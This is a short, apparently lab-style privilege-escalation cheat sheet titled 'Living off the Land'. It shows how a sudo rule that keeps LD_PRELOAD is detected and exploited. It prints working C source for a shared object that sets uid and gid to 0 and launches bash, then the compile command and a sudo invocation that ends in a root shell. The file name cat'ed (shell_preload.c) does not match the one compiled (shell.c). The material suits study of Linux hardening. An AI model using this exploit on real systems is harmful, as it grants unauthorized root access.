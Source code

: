 # Living off the Land

## 01 - Detect

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
..[omitted]..
```

## 02 - Exploit

```
user@debian:~$ mkdir exploit && cd exploit
user@debian:~/exploit$ cat shell_preload.c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
    unsetenv("LD_PRELOAD");  
    setgid(0);  
    setuid(0);  
    system("/bin/bash");  
}
user@debian:~/exploit$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
user@debian:~/exploit$ sudo LD_PRELOAD=~/exploit/shell.so apache2
root@debian:/home/user/exploit# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user/exploit# exit
exit
apache2: bad user name ${APACHE_RUN_USER}
user@debian:~/exploit$
```

## 03 - Cleanup

```
user@debian:~/exploit$ cd ..
user@debian:~$ rm -rf exploit/
```

---
## References

### Hacktricks

- [Hacktricks: Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)